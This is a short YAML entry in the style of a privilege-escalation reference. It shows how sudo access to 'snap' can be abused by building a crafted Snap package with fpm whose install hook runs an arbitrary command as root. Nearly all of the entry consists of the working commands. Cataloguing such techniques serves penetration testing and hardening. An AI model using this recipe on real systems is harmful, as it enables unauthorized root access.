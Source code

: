 ```yaml
---
functions:
  sudo:
    - description: |
        It runs commands using a specially crafted Snap package. Generate it with [fpm](https://github.com/jordansissel/fpm) and upload it to the target.
        ```
        COMMAND=id
        cd $(mktemp -d)
        mkdir -p meta/hooks
        printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
        chmod +x meta/hooks/install
        fpm -n x -s dir -t snap -a all meta
        ```
      code: |
        sudo snap install x_1.0_all.snap --dangerous --devmode
---
```

